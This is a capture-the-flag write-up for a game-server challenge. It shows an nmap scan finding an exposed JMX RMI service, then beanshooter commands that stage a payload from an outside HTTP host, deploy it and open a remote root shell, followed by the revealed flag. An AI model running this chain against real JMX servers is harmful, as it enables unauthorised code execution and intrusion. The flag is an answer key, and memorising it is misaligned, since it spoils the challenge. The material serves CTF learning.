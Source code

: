 #### Challenge:

Ahoy, officer,
 
a new server with a video game is to be placed in the ship's relaxation center . Your task is to check whether the server does not contain any vulnerabilities.

May you have fair winds and following seas!

The game server has domain name `arkanoid.cns-jv.tcc`.

---

#### Solution:

- scanning ports reveals that `jmxrmi` API is open which could be exploited via [beanshooter](https://github.com/qtc-de/beanshooter)
    ```bash
    nmap  arkanoid.cns-jv.tcc -p- -sVC
    ```

- following the `README.md` step by step grants us `shell` access and all that is needed to look for flag
```bash
beanshooter stager 10.200.0.67 8888 tonka
beanshooter tonka deploy arkanoid.cns-jv.tcc 60001 --stager-url http://10.200.0.67:8888/ --no-stager
beanshooter tonka shell  arkanoid.cns-jv.tcc 60001
> env
HOSTNAME=52ffd33a50f7
HOME=/root
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
XFILESEARCHPATH=/usr/dt/app-defaults/%L/Dt
NLSPATH=/usr/dt/lib/nls/msg/%L/%N.cat
JAVA_HOME=/opt/jdk1.8.0_144
PWD=/opt
FLAG=FLAG{sEYj-80fd-EtkR-0fHv}

beanshooter tonka undeploy 172.17.0.2 9010
```

---

<details><summary>FLAG:</summary>

```
FLAG{sEYj-80fd-EtkR-0fHv}
```

</details>
<br/>
